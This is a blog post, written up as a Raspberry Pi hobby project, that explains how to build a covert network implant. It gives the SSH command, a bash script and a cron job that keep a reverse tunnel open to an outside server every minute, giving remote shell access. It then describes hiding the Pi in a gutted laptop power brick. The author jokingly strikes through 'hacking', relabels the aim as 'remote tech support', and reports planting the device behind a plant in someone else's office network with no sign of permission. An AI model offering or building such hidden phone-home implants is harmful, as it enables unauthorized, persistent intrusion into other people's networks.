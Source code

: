 ```yaml
---
layout: post
title: 'Raspberry Pi: Phoning home using a reverse remote ssh tunnel'
categories:
- raspberry pi
- electronics
- remote
- reverse
- scripts
- featured
- ssh tunnel
- ssh
icon: icon-download-alt
comments: true
---
```

![Pi IMG](/images/pi6.jpg)<br>
What's this? Just an ordinary powerbrick? Read on to find out why this is an incredibly dangerous thing to see in your office.


When I received my raspberry pi I immediately wanted to use it as a <del>hacking</del> remote tech support tool. The idea was to be able to plug it in somewhere and it be small enough that it's not noticed in someone's network. Then if I could access it remotely I am in their network and can do things.

## Part 1: Setting up the Pi
The problem is that if I plug this in somewhere in the world and leave it I need it to phone home so I can gain remote connectivity to it. I know my home's IP but I don't know the Pi's IP. I want it to be a plug in and run away type of scenario and not one that I'll be hooking up any monitor or keyboard or anything.

### Pre-configuration
Before beginning you need to have the following:

- Raspberry Pi with a Linux OS on it
- Raspberry Pi is configured to receive a DHCP address
- Raspberry Pi is configured to receive ssh connections
- A seperate linux server that is reachable by ssh from the internet. This server should have a static public IP.

<!--more-->
It should be easy enough to figure out how to complete these on your own. With the above, you should be able ssh to the Pi remotely if you know its IP. Well you don't know its IP and even if you did it is probably behind a firewall which makes it impossible to get to. Or so you think.

What you'll need is a linux server that has a persistent IP. One that you can ssh into from anywhere in the world. Suppose it's IP is 25.25.25.25. Even though my home network gets a dynamic IP from my ISP it usually stays the same for weeks and even years. All I've done is forwarded port 22 through the firewall to a linux server to make this work.

### Setting up the ssh certificate on the Pi

From the Raspberry Pi you should be able to ssh to this linux server. Test it to be sure. So now you want to set it up so the authentication is certificate based (this way the Pi can be set up to auto ssh into the server without being prompted for a password). 

Follow this guide for setting up [automatic ssh login using ssh keys](/ssh-without-password/).

### Creating the Reverse SSH tunnel

Now comes the fun part. Create a reverse remote ssh tunnel to that host to forward connections back to the Pi. Confused? Here look at this command you would issue from the Pi:

```
ssh -N -R 2222:localhost:22 serverUser@25.25.25.25
```

The Pi is ssh'ing to the server at 25.25.25.25 using the username "serverUser". Upon doing so, it's telling that server to open port 2222. Any connections coming into the server on port 2222 forward them over the tunnel back to the Pi on port 22. The -N tag is saying we don't need to actually send any ssh commands once connected.

Once the Pi sets up that remote tunnel; from the server it connected to you can do this:

```
ssh -l piUser -p 2222 localhost
```

Now you should be ssh'd into the Pi using port 2222 on the linux server! Awesome! 

Why did this work? The linux server is listening on port 2222 for incoming ssh connections. If it receives one, it will forward all traffic it receives into the previous ssh connection that was established already. That is essentially what the remote tunnel does.

### Making it persistent (always on)

Next is to make this a persistent thing. You want the Pi to keep trying to build this ssh tunnel always and if it goes down try to bring it back. We'll do this using a bash script and cron job.

Create a file on the Pi called ~/create_ssh_tunnel.sh and put this in it:

``` bash
#!/bin/bash
createTunnel() {
  /usr/bin/ssh -N -R 2222:localhost:22 serverUser@25.25.25.25
  if [[ $? -eq 0 ]]; then
    echo Tunnel to jumpbox created successfully
  else
    echo An error occurred creating a tunnel to jumpbox. RC was $?
  fi
}
/bin/pidof ssh
if [[ $? -ne 0 ]]; then
  echo Creating new tunnel connection
  createTunnel
fi
```

What this program is doing is checking to see if there's a process running called 'ssh'. If there isn't then start the ssh tunnel.

Next make it executable by doing the following:

```
chmod 700 ~/create_ssh_tunnel.sh
```

Now start the crontab.

```
crontab -e
```
Place this in as your cron job (every minute check if the ssh connection is up, if not, attempt to bring it up)

```
*/1 * * * * ~/create_ssh_tunnel.sh > tunnel.log 2>&1
```
To troubleshoot any problems in this you can view the tunnel.log file.

Now let's take a step back and look at what we've done. When the Raspberri Pi is on, it will check every minute to see if an ssh connection to your linux server exists. If it doesn't it will create one. The tunnel it creates is really a reverse remote tunnel. Once the tunnel is up, anyone who ssh's into port 2222 of the linux server will then be redirected to the Pi. Incredible!

## Part 2: Concealing the Pi
I found an old powerbrick for a laptop and gutted it.<br>
![Pi IMG](/images/pi2.jpg)

The raspberry pi almost fit. I had to solder off the S-Video port to get it to fit just right.<br>
![Pi IMG](/images/pi3.jpg)

Then I had to hook power up to it. In order to do this I simply took apart a USB charger. Took the plastic casing off to save space and cut the cord to save even more space. Then I soldered where the powerbrick power feed is into the USB power feed. This way when I power up the brick, it'll give power to the USB charger which will in turn power the Pi.<br>
![Pi IMG](/images/pi4.jpg)

Lastly was finding a black ethernet cable so both cables coming out of the power brick are black and look inconspicuous.<br>
![Pi IMG](/images/pi5.jpg)

Here are pictures of it in its special case:<br>
![Pi IMG](/images/pi6.jpg)<br>
![Pi IMG](/images/pi7.jpg)

## Part 3: Testing it
Check it out! <br>
![Pi IMG](/images/pi1.jpg)

I have this plugged into an office somewhere. It looks weird when you stare at it but put it behind a plant and nobody will ever notice it (except the guy who waters the plants).

Once I plugged it in I went back home. Right after the Pi got an IP address it created a tunnel to my home server. When I tried ssh'ing into port 2222 of my home server I was redirected to the Pi. Now I am on a computer in someone elses network. Woohoo! Now I can do remote tech support more effectively.
